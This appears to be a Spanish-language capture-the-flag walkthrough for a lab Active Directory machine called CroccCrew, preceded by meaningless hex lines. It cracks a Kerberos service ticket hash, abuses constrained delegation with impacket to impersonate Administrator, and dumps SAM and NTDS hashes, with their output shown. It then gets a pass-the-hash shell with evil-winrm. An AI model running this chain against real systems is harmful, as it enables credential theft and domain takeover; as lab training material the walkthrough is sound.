7b58fd4b141fbb4190104f015fe3f91d2c7db7ef9aa512fb4c71fb75e8cd502d74c0cf3cf6a81d4ce1f5c1046abb00fe0b5be9178bb8
c068006c152f77c2f8a83cfa7c0f9888100259e85bce28a4ff33057942600b885636416310b9c7d8d39c72978704a6784ee251e2c6af
210fb51a31c81e1e613c4cf72b792548f1cab61a59c55c620e8b34304c83d8c49cec156b6a72631ba428f1cf9b34569e91b533508215
111c57e170047eabb3b174fbcc7a2cb766542fb88e2724554462ffbaf46624ba7f443cdfcfee6b22527dd6af4126284937890c0d8237
93d21f4bfaab84fd1a1ba97a7263310ffe81afd13710f2394d6d77c603957ce2861761c45cba73d995a007c3442aa97344bd01f27e38
8d5ee392025b277479731a13207448efef4223c49585752b2bbfa9244812c42473d91956e22265abee560485e1b8b253db7555271c07
c8c4fbbdd88ceefe304fb38622060ce599d68de537c590428f4853ff54051a293f29dfc18ecf9dba782787b1c16bc6e320499facf5c6
d25e3d1e6319df78ec92c09deece8e909bbce94a699441a880e9a5b967184b7356ba9c628bbf2f90d0e8c199d5ce6481cfe4e226cd2e
a44bc1e3be560e3480ce92dbb54f8bd5bb58b407b6483b378a0a5f775175eb161aa81872bbe53
````

haremos un  `john TGS.txt -w=/usr/share/wordlists/rockyou.txt`

````bash
┌──(samsepi0l㉿kali)-[~/CroccCrew]
└─$ john TGS.txt -w=/usr/share/wordlists/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Press 'q' or Ctrl-C to abort, almost any other key for status
re*********rd    (?)     
1g 0:00:00:00 DONE (2022-05-18 14:58) 2.439g/s 574751p/s 574751c/s 574751C/s rexon..reihan
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
````

Nota: es probable que el diccionario este comprimido asi que te tendras que ir ala ruta /usr/share/wordlists/ y haras un gzip -d rockyou.txt y con eso ya funcionaria bien si es que en caso no lo hayas descomprimido antes.

y ahi estara las contraseña: `re*********rd`

ahora haremos un:

`impacket-findDelegation -debug  COOCTUS.CORP/password-reset:resetpassword -dc-ip 10.10.206.226`

````bash
┌──(samsepi0l㉿kali)-[~/CroccCrew]
└─$ impacket-findDelegation -debug  COOCTUS.CORP/password-reset:resetpassword -dc-ip 10.10.47.234           
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[+] Impacket Library Installation Path: /usr/lib/python3/dist-packages/impacket
[+] Connecting to 10.10.47.234, port 389, SSL False
[+] Total of records returned 4
AccountName     AccountType  DelegationType                      DelegationRightsTo                  
--------------  -----------  ----------------------------------  -----------------------------------
password-reset  Person       Constrained w/ Protocol Transition  oakley/DC.COOCTUS.CORP/COOCTUS.CORP 
password-reset  Person       Constrained w/ Protocol Transition  oakley/DC.COOCTUS.CORP              
password-reset  Person       Constrained w/ Protocol Transition  oakley/DC                           
password-reset  Person       Constrained w/ Protocol Transition  oakley/DC.COOCTUS.CORP/COOCTUS      
password-reset  Person       Constrained w/ Protocol Transition  oakley/DC/COOCTUS 
````

para el uso de la delegación de búsqueda de impacket para extraer más información sobre la delegación.
 
 ahora haremos un 
 `impacket-getST -spn oakley/DC.COOCTUS.CORP -impersonate Administrator "COOCTUS.CORP/password-reset:resetpassword" -dc-ip 10.10.206.226`


El resultado de este script será un ticket de servicio para el usuario administrador.
Una vez que tengamos el archivo ccache, configúrelo en la variable KRB5CCNAME para que se cargue dentro de la memoria y luego podamos usarlo a nuestro favor.

ahora haremos un `export KRB5CCNAME=Administrator.ccache` para el uso de la secuencia de comandos secretsdump de impacket para volcar hashes de usuario.

para ahorrarnos futuros errores y tiempo añadiremos esto a nuestra /etc/hosts con la ip de su maquina ( DC.COOCTUS.CORP ) eso añadiran claramente ira sin los parentesis, aqui un ejemplo de como tuvo que quedar

```bash
___________________________________________________________
127.0.0.1       localhost
127.0.1.1       kali
10.10.79.189    DC.COOCTUS.CORP
 The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
____________________________________________________________
```

ahora haremos un `impacket-secretsdump -k -no-pass DC.COOCTUS.CORP`

Una vez que hayamos hecho eso, debería volcar con éxito los hashes NTLM del usuario.

el hash que colocaras tendria que ser como este:

```bash
❯ impacket-secretsdump -k -no-pass DC.COOCTUS.CORP
Impacket v0.9.24 - Copyright 2021 SecureAuth Corporation

[*] Service RemoteRegistry is in stopped state
[*] Starting service RemoteRegistry
[*] Target system bootKey: 0xe748a0def7614d3306bd536cdc51bebe
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:7dfa0531d73101ca080c7379a9bff1c7:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[-] SAM hashes extraction for user WDAGUtilityAccount failed. The account doesn't have hash information.
[*] Dumping cached domain logon information (domain/username:hash)
[*] Dumping LSA Secrets
[*] $MACHINE.ACC 
COOCTUS\DC$:plain_password_hex:ca5a968a566c9e87ed1996c113574152ea825f289bfc584a5e471ece821abaa5278be39b6bf2504be68731e9d47a0ae42959c77be51e20b36a38739cf2174d483cc8b7481e29daf3b2764b8b30c7bf073800b93ada31d0f706c631ea09368f18db54e9fea49d02c6628fce8376fe78d8fb34eef3ada0a61ab0adb63c63af095f6c34b29a451c900b6ace8550cec3d86bf79c093dd6d187116e5bb4ca5d04bb9521b1805782ad0d1b5699271c3824ee89f604a0a887fa33438f30bcd76b60f022fc97d979bb61a64824a49c7f9a20e7ae80e8f66cb7a41a04059eb54fd532ff3a4f7d3e74d9696609edd3a28c9420e6bd
COOCTUS\DC$:aad3b435b51404eeaad3b435b51404ee:726ee92a315d6d47b7553cb71a2b92a7:::
[*] DPAPI_SYSTEM 
dpapi_machinekey:0xdadf91990ade51602422e8283bad7a4771ca859b
dpapi_userkey:0x95ca7d2a7ae7ce38f20f1b11c22a05e5e23b321b
[*] NL$KM 
 0000   D5 05 74 5F A7 08 35 EA  EC 25 41 2C 20 DC 36 0C   ..t_..5..%A, .6.
 0010   AC CE CB 12 8C 13 AC 43  58 9C F7 5C 88 E4 7A C3   .......CX..\..z.
 0020   98 F2 BB EC 5F CB 14 63  1D 43 8C 81 11 1E 51 EC   ...._..c.C....Q.
 0030   66 07 6D FB 19 C4 2C 0E  9A 07 30 2A 90 27 2C 6B   f.m...,...0*.',k
NL$KM:d505745fa70835eaec25412c20dc360caccecb128c13ac43589cf75c88e47ac398f2bbec5fcb14631d438c81111e51ec66076dfb19c42c0e9a07302a90272c6b
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:add41095f1fb0405b32f70a489de022d:::
```

#### Post Explotacion:

en la parte donde dice Administrador seleccionaran el hash que empieza con add, esta el que inicia con aad pero no, ustedes usaran el que dice add

ahora para lograr obtener una shell como administrador lo que haremos sera
 
`evil-winrm -i 10.10.206.226 -u Administrator -H 'add41095f1fb0405b32f70a489de022d'`

`-i` hace referencia a IP `-u` hace referencia a Usuario `-H` hace refencia a HASH

#### Escalada De Privilegios:

comenzaremos con una busqueda rapida a los archivos `txt` y `user.`

`Get-Childitem -Path C:\ -Include *user*.txt* -File -Recurse -ErrorAction SilentlyContinue`



como ven nos deja un directorio llamado `C:\Shares\Home entremos con cd C:\PerfLogs\Admin` y hagamos un dir y como vemos ahi estan las 2 flags mas que necesitabamos, la user.txt ya la habiamos sacado con smbmap...

haremos una busqueda a nivel raiz para la bandera `root.txt`

`Get-Childitem -Path / -Include root.txt -File -Recurse -ErrorAction SilentlyContinue`

 

como ven nos tiro esta ruta >>> `C:\PerfLogs\Admin entremos con cd C:\PerfLogs\Admin`

hacemos un `type root.txt` y ahi estaria la bandera root, y con eso estaria terminada la ctf, espero que les haya agradado el video y cualquier duda o error que tengan en cualquiera de las ctfs que suba al canal me pueden preguntar por privado, me encuentran como [](https://t.me/samsepiol) en la plataforma de telegram.

[](https://t.me/Un0zandC3r0z)


